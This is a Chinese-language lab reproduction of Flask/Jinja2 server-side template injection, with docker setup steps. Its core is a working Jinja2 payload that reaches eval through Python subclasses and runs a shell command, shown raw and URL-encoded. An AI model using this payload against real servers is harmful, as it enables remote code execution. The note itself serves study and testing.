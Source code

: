 Flask / jinja2 SSTI 服务端模版注入攻击
======================================

一、漏洞简介
------------

`SSTI`即服务端模版注入攻击。由于程序员代码编写不当，导致用户输入可以修改服务端模版的执行逻辑，从而造成`XSS`,任意文件读取，代码执行等一系列问题。

二、漏洞影响
------------

三、复现过程
------------

编译及运行测试环境：

    docker-compose build
    docker-compose up -d

访问`http://www.0-sec.org/?name={{233*233}}`，得到54289，说明SSTI漏洞存在。

获取eval函数并执行任意python代码的POC：

    {% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
      {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
          {{ b['eval']('__import__("os").popen("id").read()') }}
        {% endif %}
      {% endif %}
      {% endfor %}
    {% endif %}
    {% endfor %}

访问`http://www.0-sec.org:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`，得到执行结果：

![](resource/Jinja2SSTI服务端模版注入攻击/media/rId24.png)

参考链接
--------

> https://drops.org.cn/Python/flask-jinja2-ssti.html\#directory072591889128396616
>
> https://vulhub.org/\#/environments/flask/ssti/
